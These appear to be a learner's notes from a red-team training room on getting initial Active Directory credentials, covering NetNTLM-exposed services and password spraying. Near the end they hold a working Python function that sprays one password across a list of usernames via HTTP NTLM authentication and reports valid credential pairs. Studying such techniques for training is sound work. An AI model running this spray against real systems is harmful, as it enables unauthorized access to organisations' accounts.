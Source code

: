 
# Intro

Before we can exploit AD misconfigurations for privilege escalation, lateral movement, and goal execution, you need initial access first. You need to acquire an initial set of valid AD credentials. Due to the number of AD services and features, the attack surface for gaining an initial set of AD credentials is usually significant. In this room, we will discuss several avenues, but this is by no means an exhaustive list.


Two popular methods for gaining access to that first set of AD credentials is ==**OSINT and Phishing**

# NTLM Authenticated Services

 Definition --> [[AD Basics#NetNTLM Authentication]]

NetNTLM, also often referred to as Windows Authentication or just NTLM Authentication, allows the application to play the role of a middle man between the client and AD. All authentication material is forwarded to a Domain Controller in the form of a challenge, and if completed successfully, the application will authenticate the user. The following are some of the popular examples:

- Internally-hosted Exchange (Mail) servers that expose an Outlook Web App (OWA) login portal.
- Remote Desktop Protocol (RDP) service of a server being exposed to the internet.
- Exposed VPN endpoints that were integrated with AD.
- Web applications that are internet-facing and make use of NetNTLM.

![[NetNTLM protocol.png]]


## Brute-force Login Attacks

these exposed services provide an excellent location to test credentials discovered using other means. However, these services can also be used directly in an attempt to recover an initial set of valid AD credentials. We could perhaps try to use these for brute force attacks if we recovered information such as valid email addresses during our initial red team recon.
Since most AD environments have account lockout configured, we won't be able to run a full brute-force attack. Instead, we need to perform a password spraying attack. Instead of trying multiple different passwords, which may trigger the account lockout mechanism, **we choose and use one password and attempt to authenticate with all the usernames we have acquired**. However, it should be noted that these types of attacks can be detected due to the amount of failed authentication attempts they will generate.

Password spray script : 
`````python
def password_spray(self, password, url):
    print ("[*] Starting passwords spray attack using the following password: " + password)
    #Reset valid credential counter
    count = 0
    #Iterate through all of the possible usernames
    for user in self.users:
        #Make a request to the website and attempt Windows Authentication
        response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
        #Read status code of response to determine if authentication was successful
        if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
            print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
            count += 1
            continue
        if (self.verbose):
            if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                print ("[-] Failed login with Username: " + user)
    print ("[*] Password spray attack completed,a " + str(count) + " valid credential pairs found")
`````
